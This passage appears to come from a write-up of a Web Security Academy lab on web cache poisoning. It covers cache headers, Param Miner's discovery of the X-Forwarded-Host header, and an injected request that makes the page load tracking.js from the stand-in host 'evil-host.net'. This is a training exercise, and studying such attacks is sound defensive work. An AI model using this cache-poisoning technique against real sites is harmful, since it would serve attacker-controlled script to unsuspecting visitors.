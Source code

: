 Response:
```http
HTTP/2 200 OK
...
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 10987

<!DOCTYPE html>
<html>
    ...
    <body>
        <script type="text/javascript" src="//my.web-security-academy.net/resources/js/tracking.js"></script>
	...
    </body>
</html>
```

Notice the following:
- URL is reflected in the Response body
- Cache expires after 30 sec
- We also have the `Age` header so we can time the attacks
- First request is not cached

2. Run Param Miner to identify accepted headers

```
...
Initiating header bruteforce on my.web-security-academy.net
Identified parameter on my.web-security-academy.net: x-forwarded-host~%s.%h
Completed attack on my.web-security-academy.net
...
```

`X-Forwarded-Host` is identified.
 
3. Inject test URL with `X-Forwarded-Host`

Request:
```http
GET / HTTP/2
Host: my.web-security-academy.net
...
X-Forwarded-Host: evil-host.net

```

Response:
```http
HTTP/2 200 OK
...
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 10943

<!DOCTYPE html>
<html>
    ...
    <body>
        <script type="text/javascript" src="//evil-host.net/resources/js/tracking.js"></script>
        ...
    </body>
</html>
```
